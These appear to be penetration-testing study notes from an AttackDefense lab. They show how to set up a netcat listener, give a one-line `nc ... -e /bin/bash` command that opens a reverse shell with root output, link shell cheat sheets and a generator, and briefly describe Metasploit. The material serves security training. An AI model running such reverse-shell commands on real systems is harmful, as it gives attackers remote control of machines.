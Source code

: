 



#### Reverse shell between linux and kali

**setup a listener** 

```bash
root@attackdefense:~# nc -nvlp 1234 
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234

id
uid=0(root) gid=0(root) groups=0(root)
pwd
/root
```



**connect to the listener to get the command shell**

```bash
root@attackdefense:~# nc -vn 10.10.80.2 1234 -e /bin/bash 
Ncat: Connection from 10.10.80.2.
Ncat: Connection from 10.10.80.2:35192.
```



---

#### list of shell cheat sheet

- [Bind Shell Cheat Sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-bind-cheatsheet/)
- [Reverse Shell Cheat Sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/)
- [Reverse Shell Generator](https://www.revshells.com/)



---

### Frameworks

#### Exploitation Frameworks

#### 1- The Metasploit Framework (MSF)    

+ The Metasploit Framework (MSF) is an open-source, robust penetration testing and exploitation framework that is used by penetration testers and security researchers worldwide.
+ It provides penetration testers with a robust infrastructure required to automate every stage of the penetration testing life cycle.
+ It is also used to develop and test exploits and has one of the world’s largest database of public, tested exploits.
+ The Metasploit Framework is designed to be modular, allowing for new functionality to be implemented with ease.
